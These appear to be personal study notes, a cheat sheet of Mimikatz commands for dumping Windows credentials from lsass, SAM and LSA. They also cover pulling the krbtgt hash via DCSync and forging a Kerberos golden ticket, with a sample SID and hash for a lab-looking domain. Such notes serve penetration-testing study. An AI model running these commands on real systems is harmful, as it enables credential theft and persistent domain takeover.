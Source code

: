 ```yaml
---
tags:
  - security
  - windows
  - enumeration
  - exploitation
title: Mimikatz
date: 2024-01-28 14:15:56 -0600
---
```


Mimikatz requires Admin privileges to function
Check Privilege : `privilege::debug`  

`log <filename>`: Logs all commands into a log file

### Dumping Hashes

LSA : Local Security Authority  
lsass.exe : Local Security Authority Subsystem Service  
SAM : Security Accounts Manager

`sekurlsa::logonpasswords`  
Returns NTLM passwords stored in memory using lsass.exe service  
On older versions of Windows plaintext passwords where returned

`lsadump::sam`  
Dump content of SAM database

`lsadump::lsa`  
Dump LSA credentials  
If NTLM hashes are not shown use the `/patch` option

### Kerberos Golden Ticket Attack

For getting the Golden Ticket we need to have access to a user that has some sort of Admin privilege on Active Directory

`lsadump::lsa /inject /name:krbtgt`  
Retrieve the Hash of the krbtgt account from the Domain Controller

`lsadump::dcsync /domain:controller.local /user:krbtgt`  
Fetch Hash of Kerberos account using Dcsync Feature

`kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /id:500`  
Generate a Golden Ticket and add in current session  
`/user` : Can use any name  
`/sid` : Krbtgt user sid  
`/krbtgt` : NTLM Hash  
`/id` : Id of domain admin account (Usually 500)

[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)

